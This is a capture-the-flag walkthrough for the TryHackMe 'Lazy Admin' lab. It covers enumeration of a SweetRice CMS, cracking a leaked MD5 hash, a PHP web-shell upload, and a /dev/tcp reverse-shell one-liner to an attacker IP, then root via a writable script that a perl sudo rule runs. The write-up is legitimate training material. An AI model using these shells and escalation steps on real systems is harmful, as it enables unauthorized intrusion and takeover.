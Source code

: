 # Lazy Admin 

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg)

## Difficulty = Easy

***

Running our nmap scan we have -:


```bash
# Nmap 7.94 scan initiated Wed Oct 18 04:25:37 2023 as: nmap -p22,80 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.65.43
Nmap scan report for 10.10.65.43
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 18 04:25:55 2023 -- 1 IP address (1 host up) scanned in 18.84 seconds
```

Nice⚡, we have port `80` and `22` opened, Navigating to port `80/HTTP` we have a default Apache web page

![](https://i.imgur.com/xxzn8ql.png)



Running `ffuf` for dir/file bruteforce, we found 2 entries

![](https://i.imgur.com/02hSyX3.png)

Navigating to `/content` we have a **sweet rice** CMS page

![](https://i.imgur.com/LqnW8jw.png)

- Viewing-Page Source we know **sweet rice CMS** runs on version 0.5.4
- We found exploit on `searchsploit` but none seems to work

![](https://i.imgur.com/NMEeEJj.png)


Decided to run a dir/file bruteforce on `/content` and we have this -:


![](https://i.imgur.com/xRg3Zar.png)


Navigating to `/content/as` we found a login page


![](https://i.imgur.com/srSvAUz.png)

Tried out several attempts to login but none worked, decided to enumerate harder.

![](https://i.pinimg.com/736x/38/d7/96/38d796426dd19ebb4dac9f286f5cd435.jpg)

Navigating to the `/content/inc` folder we found a mysql backup directory


![](https://i.imgur.com/vA2A7Rn.png)

We can then download the backup file 

![](https://i.imgur.com/mVJfsfe.png)

Viewing the file we have a password hash in `MD5` and a username


![](https://i.imgur.com/JVnGQoo.png)

Cracking it with `hashcat`, we found a password

```bash
$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -O
```


![](https://i.imgur.com/phmOUa4.png)


Navigating to media center we can upload files and the files are stored under `/attachment` directly

![](https://i.imgur.com/97r84Gf.png)



Uploaded our shell as `.php5` cos' it kept filtering out normal `php` extension. Navigating to where i uploaded my shell, it kept breaking it so here is what i did

![](https://i.imgur.com/48WCFcx.png)

- create a `anything.sh` file
- Paste this into the file and save

```bash
/bin/sh -i >& /dev/tcp/10.9.75.133/1337 0>&1
```

- start up a `python` server on attacker machine and download through our web shell with `wget`

```bash
# attacker machine - python
$ python3 -m http.server 80

# target web-shell - wget
$ wget anything.sh
```

- start up your listener `nc -lvnp 1337`
- On the web shell run `bash anything.sh`

![](https://i.imgur.com/RwTPpSj.png)


Navigating to our `/home` directory we have a `backup.pl` script, that runs a `copy.sh` script in the `/etc` folder


![](https://i.imgur.com/7jCqbSn.png)

Nice, we have read-write-execute access 🤖

![](https://i.imgur.com/YNwjUMV.png)

we can then add this script into the `/etc/copy.sh` file to get root


```bash
#!/bin/bash  
  
/bin/bash -i ;#
```

Also running `sudo -l` we can see that we have the permission to run the `backup.perl` file in `/home/itguy` folder, with `perl` as root

![](https://i.imgur.com/f59Jjtl.png)




Run the `backup.pl` script in `/home/itguy` directory and you should be root

```bash
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

![](https://i.imgur.com/ynoCtur.png)


Have fun 😃

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


